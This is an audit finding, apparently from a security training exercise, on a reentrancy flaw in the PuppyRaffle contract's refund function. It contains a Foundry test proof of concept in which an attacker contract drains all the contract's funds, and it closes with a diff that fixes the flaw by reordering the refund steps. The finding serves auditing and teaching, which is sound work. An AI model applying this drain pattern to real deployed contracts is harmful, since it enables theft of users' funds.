 ## Test PoC
Include the below test in ```PuppyRaffleTest.t.sol```

Also include the import: ```import {AttackPuppyRaffle} from "../src/attack/AttackPuppyRaffle.sol";```

Run ```forge test --mt test_AttackerCanDrainAllFunds -vv```
```solidity
function test_AttackerCanDrainAllFunds() public playerEntered {
    uint256 START_BALANCE = 10 ether;
    address attacker = makeAddr("attacker");
    vm.deal(attacker, START_BALANCE);

    vm.prank(attacker);
    AttackPuppyRaffle attackPuppyRaffle = new AttackPuppyRaffle(address(puppyRaffle));

    address[] memory players = new address[](1);
    players[0] = address(attackPuppyRaffle);

    uint256 attackerBalance = attacker.balance;               // balance before entering raffle
        
    console.log("Balance before entering the raffle: ", attackerBalance);

    vm.startPrank(attacker);
    puppyRaffle.enterRaffle{value: entranceFee}(players);

    uint256 idx = 1;    // there is one player already in the raffle, so attacker is 2nd (thus, idx = 1)

    attackPuppyRaffle.refundAttack(idx);

    attackPuppyRaffle.withdrawLootedEth();
    vm.stopPrank();

    uint256 finalAttackerBalance = attacker.balance;    // balance after entering raffle and getting refund

    console.log("Balance after entering and getting refund: ", finalAttackerBalance);
    assert(finalAttackerBalance > attackerBalance);
    assert(address(puppyRaffle).balance == 0);
}
```

## Impact
An attacker can drain all the funds of the PuppyRaffle contract.

## Tools Used
Manual Review

## Recommendations
Follow CEI pattern
```diff
function refund(uint256 playerIndex) public {
    address playerAddress = players[playerIndex];
    require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
    require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

+   players[playerIndex] = address(0);

    payable(msg.sender).sendValue(entranceFee);

-   players[playerIndex] = address(0);
```